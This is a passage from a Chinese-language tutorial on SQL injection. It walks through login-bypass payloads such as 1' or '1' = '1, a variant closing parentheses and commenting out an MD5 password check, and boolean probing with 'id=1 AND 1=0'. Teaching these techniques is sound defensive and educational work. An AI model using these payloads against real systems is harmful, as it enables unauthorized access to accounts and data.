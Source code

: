 我们仍以经典的SQL查询语句为例：

```sql
SELECT * FROM users WHERE username='$username' AND password='$password';

```

我们对username和password构造一种特殊的输入：

```plain
$username = 1' or '1' = '1
$password = 1' or '1' = '1

```

代入参数后，SQL查询语句变成：

```sql
SELECT * FROM users WHERE username='1' or '1' = '1' AND password='1' or '1' = '1';

```

可以发现，在上述SQL语句中，不管`or`和`AND`操作符谁的优先级高，`WHERE`语句的条件都是永远为真的，因此我们可以通过这个操作，实现认证过程的绕过。

接下来，我们对原始SQL语句进行一次升级，这种升级后的语句也是非常常见的：

```sql
SELECT count(*) FROM users WHERE ((username='$username') AND (password=MD5('$password')));

```

可以看到，这次升级一方面在username部分新增了括号，另一方面在处理password时，选择了MD5散列结果进行比较，最后又统计了查询结果的数量，经过升级之后，上一次的构造就无法生效了。

这时，如果我们想要构造新的参数完成SQL注入，就要解决三个问题，**第一是括号的闭合，第二是password部分的比对，第三是要确保查询数量为1。**于是我们构造如下输入：

```plain
$username = 1' or '1' = '1')) LIMIT 1 --
$password = test

```

将参数代入后查询语句变成：

```sql
SELECT count(*) FROM users WHERE ((username='1' or '1' = '1')) LIMIT 1 --') AND (password=MD5('$password')));

```

可以发现上述SQL语句实现了括号的闭合、忽略了password判断部分，并且限制结果数量为1，这段语句同时满足了3个限制条件，成功实现了SQL注入攻击。

在基本起手式阶段，除了这种使用`'`来进行注入探测的方式以外，我们还可以使用`AND`符号来判断参数是否可以被当做运算符参与代码执行。以常见的CMS类型系统为例，常见的帖子链接如下：

```plain
https://example.com/article.php?id=1

```

在已知【id=1帖子】存在的情况下，我们可以将id参数设置为`1 AND 1=0`，并且和SQL语句完成拼接：

```sql
SELECT * from articles WHERE article_id = 1 AND 1=0;

```
